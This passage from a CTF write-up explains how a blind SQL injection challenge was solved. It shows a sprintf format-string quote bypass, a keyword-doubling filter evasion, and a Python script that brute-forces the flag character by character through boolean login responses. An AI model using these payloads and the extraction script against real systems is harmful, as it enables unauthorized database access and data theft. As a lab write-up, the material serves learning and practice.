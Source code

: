So what happens is that basically, we can evade the query thanks to the sprintf function which will interprete the backslash + single quote as single quote bypassing as a result the validate method.

Getting to understand the structure of our payload, here's what it actually looks like:
`` ee %1$' || SUBSTRING((SESELECTLECT flag FROM Flag) , 1, 1) = %1$'F%1$' -- - `` 

This payload will get us redirected to an another page. We\'ll take advantage of this condition when writing our script.

![alt text](https://imgur.com/CnNlyJC.png)



Here\'s the script I used: 
```
import requests

x=33

url ="http://134.209.83.242:1234/"
p = 1
result = ""

while True:
        payload = "ee %1$' || ASCII(substring((SESELECTLECT flag from Flag)," + str(p) + ",1)) = %1$'"+ str(x) +"%1$' -- -"
        data = {'username' :  payload  , 'password' : 'aaa' }
       print (data)
        r = requests.post(url=url, data=data)
        if ("Welcome," in r.text):
                p = p + 1
                result = result + chr(x)
                x=33
                print (result)
        x=x+1
        if (x==126):
                break

```


And here we go ! That\'s how we get our Flag.

#### 🚩 Flag{Bl1Nd_SQLi_1S_7h3_B2sT} 🚩



### Conclusion
Finally, I want to thank everyone who contributed to the success of this event, including the organizers, the authors, and the participants who sticked till the end of the CTF. It was amazing, and I can't wait until the next CTF. 
